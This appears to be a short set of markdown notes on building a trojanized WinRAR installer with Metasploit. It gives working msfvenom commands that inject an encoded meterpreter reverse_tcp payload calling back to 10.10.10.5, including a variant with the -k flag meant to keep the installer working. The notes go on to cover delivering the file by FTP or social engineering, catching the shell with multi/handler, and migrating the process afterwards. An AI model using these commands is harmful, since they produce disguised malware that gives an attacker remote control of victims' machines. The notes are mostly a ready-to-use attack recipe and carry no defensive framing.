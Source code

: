 #### Injecting payloads into windows portable executables
- Download winrar file
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe -x ~/Downloads/wrar602.exe > ~/Desktop/Windows_Payloads/winrar.exe [this will inject the payload into wrar602 executables file ]
#### Transfer the file
- use ftp server or social engineering technique to upload the file into attacker machine.
- set up multi/handler module into metasploit to get meterpreter shell carefully set everyting that match with paylods.
- run click to run the file[ done by victim]
- this will give meterpreter shell
#### post-exploit
- after getting meterpreter shell
- run post/windows/manage/migrate [ this will migrate the process]

#### k options
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe -k -x ~/Downloads/wrar602.exe > ~/Desktop/Windows_Payloads/winrar.exe [the k flag maintain everyting same as the winrar functionality but this k options always get error]
